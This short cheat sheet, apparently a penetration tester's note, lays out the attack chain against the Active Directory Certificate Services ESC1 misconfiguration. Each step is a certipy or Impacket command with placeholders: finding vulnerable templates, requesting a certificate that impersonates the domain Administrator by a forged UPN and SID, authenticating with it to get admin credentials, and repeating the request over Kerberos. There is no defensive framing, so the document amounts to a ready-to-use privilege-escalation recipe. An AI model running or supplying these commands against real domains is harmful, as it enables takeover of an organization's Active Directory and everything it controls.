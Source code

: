 # ADCS ESC1

%adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2. Request a cert that impersonates Administrator
```
certipy req -u <username> -p '<password>' -target <CA_FQDN> -ca <CA_NAME> \
            -dc-ip <DC_IP> \
            -dc-host <DC_HOST> \
            -template <ESC1_TEMPLATE> \
            -upn 'administrator@<DOMAIN>' -sid <ADMIN_SID>
```

## 3. Log on with the minted cert
```
certipy auth -pfx administrator.pfx -dc-ip <DC_IP>
```

## 4. If password of hash fails:
```
getTGT.py <domain>/<username>:'<password>' -dc-ip <DC_IP>
```
## 5. Using Kerberos for certificate request.
```
certipy req -u <username> -k -target <CA_FQDN> -ca <CA_NAME> \
            -dc-ip <DC_IP> \
            -dc-host <DC_HOST> \
            -template <ESC1_TEMPLATE> \
            -upn 'administrator@<DOMAIN>' -sid <ADMIN_SID>
```
